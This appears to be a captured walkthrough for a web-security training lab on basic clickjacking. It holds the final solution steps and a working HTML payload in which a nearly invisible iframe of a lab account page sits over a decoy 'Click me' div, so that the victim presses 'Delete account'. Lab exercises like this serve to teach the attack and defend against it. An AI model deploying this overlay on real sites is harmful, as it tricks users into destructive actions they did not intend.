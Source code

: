                                 Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
                            </li>
                        </ul>
                    </li>
                    <li>
                        Click <strong>Store</strong> and then <strong>View exploit</strong>.
                    </li>
                    <li>
                        Hover over <strong>Test me</strong> and ensure the cursor changes to a hand indicating that the div element is positioned correctly. <strong>Do not actually click the "Delete account" button yourself.</strong> If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the <code>top</code> and <code>left</code> properties of the style sheet.
                    </li>
                    <li>
                        Once you have the div element lined up correctly, change "Test me" to "Click me" and click <strong>Store</strong>.
                    </li>
                    <li>
                        Click on <strong>Deliver exploit to victim</strong> and the lab should be solved.
                    </li>
                </ol>
            </div>
        </div>

exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a77008a03ad391cc0f93551005400ae.web-security-academy.net/my-account"></iframe>
```

[How to construct a basic clickjacking attack](https://portswigger.net/web-security/clickjacking#how-to-construct-a-basic-clickjacking-attack)
